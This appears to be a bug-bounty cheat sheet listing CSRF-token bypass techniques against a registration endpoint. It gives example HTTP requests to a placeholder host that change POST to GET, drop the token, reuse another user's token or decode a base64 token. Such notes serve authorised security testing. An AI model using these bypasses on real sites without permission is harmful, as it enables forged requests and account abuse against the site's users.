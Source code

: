 1. Changing POST / GET method

```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```

Try this to bypass

```
GET /register?username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa HTTP/1.1
Host: target.com
[...]
```

1. Remove the token from request

```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```

Try this to bypass

```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456
```

1. Use another user's valid token

```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=ANOTHER_VALID_TOKEN
```

1. Try to decrypt hash

```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=MTIzNDU2
```

MTIzNDU2 => 123456 with base64
